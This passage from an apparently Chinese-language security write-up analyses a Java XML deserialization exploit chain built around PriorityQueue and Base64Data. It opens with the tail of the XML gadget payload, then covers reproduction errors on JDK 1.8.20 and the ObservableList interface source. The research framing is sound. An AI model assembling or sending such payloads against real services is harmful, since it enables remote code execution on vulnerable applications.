 ```
                    </key>
                  </defaultDomain>
                  <initialized>true</initialized>
                  <pdcache/>
                </processorCL>
              </iterator>
              <type>KEYS</type>
            </e>
            <in class='java.io.ByteArrayInputStream'>
              <buf></buf>
              <pos>-2147483648</pos>
              <mark>0</mark>
              <count>0</count>
            </in>
          </is>
          <consumed>false</consumed>
        </dataSource>
        <transferFlavors/>
      </dataHandler>
      <dataLen>0</dataLen>
    </com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data reference='../com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'/>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

可以看到这个漏洞的利用链就和之前两个大不相同了，并且在分析该漏洞的时候也踩了一些坑，在这里也和大家详细说明一下

这里我先用 jdk 1.8.20 版本来复现这个漏洞，然而执行的时候却返回以下错误

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxqlH4TxhaRZwVg8ktn9S1L0fZgGI1XJ9JVEb1CjupBDjJsuia7pc1AoQ/640?wx_fmt=png)

一开始没太明白这里是出了什么问题 先是跟着报错信息中提示的路径去看了一下，发现是在反序列化 PriorityQueue 的 comparator 属性的时候出现了问题。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxlEaebzVAwoLSHfYF0vlt3nV4euovpMQzVWFTYkVgJUMicu7QNXPNalQ/640?wx_fmt=png)

经过一段跟踪调试，跟踪到类加载的地方发现根本找不到这个 ObservableList$1 的对象，从这个名字带有 $1 不难看出，这是一个匿名内部类对象，此时我们先去 ObservableList 这个类中去查看一下，然后发现 ObservableList 是一个接口类型，源码如下

```
public interface ObservableList<E> extends List<E>, Observable {

    public void addListener(ListChangeListener<? super E> listener);

    public void removeListener(ListChangeListener<? super E> listener);

    public boolean addAll(E... elements);

    public boolean setAll(E... elements);

    public boolean setAll(Collection<? extends E> col);

    public boolean removeAll(E... elements);

    public boolean retainAll(E... elements);


    public void remove(int from, int to);

    public default FilteredList<E> filtered(Predicate<E> predicate) {
        return new FilteredList<>(this, predicate);
    }

    public default SortedList<E> sorted(Comparator<E> comparator) {
```